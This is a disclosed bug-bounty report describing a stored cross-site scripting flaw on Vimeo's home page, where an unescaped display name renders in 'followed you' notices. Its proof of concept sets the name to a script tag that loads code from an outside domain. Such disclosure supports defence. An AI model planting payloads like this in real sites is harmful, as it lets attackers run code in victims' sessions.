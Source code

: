 # XSS on vimeo.com/home after other user follows you

## Report Details
- **Report ID**: 87854
- **URL**: https://hackerone.com/reports/87854
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2015-09-07T13:43:25.171Z
- **Disclosed**: 2017-08-31T10:25:58.730Z

## Reporter
- **Username**: stefanovettorazzi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: vimeo

## Vulnerability Information
__Description__

If some user follows you on Vimeo, the Name of the user appears in the header of your Home like "[Name] followed you. The staff posted...".
The problem is that the Name is not escaped, which allows to insert HTML code.

__Proof of concept__

1. Using the attacker's account, go to https://vimeo.com/settings.
2. Change the _Name_ to `<script src=//u00f1.xyz>`.
3. Click on _Save Changes_.
4. Go to the victim's Profile.
5. Click on _Follow_ (is at the bottom of the profile picture).
6. Using the victim's account, go to https://vimeo.com/home.
7. https://u00f1.xyz is loaded and `alert(document.domain)` is executed.

I attached a screen capture to identify where the Name of the attacker appears. In this case I used an `<img>` as the Name of the attacker, you can notice the broken image.

## Attachments
- Screen_Shot_2015-09-07_at_10.38.36.png
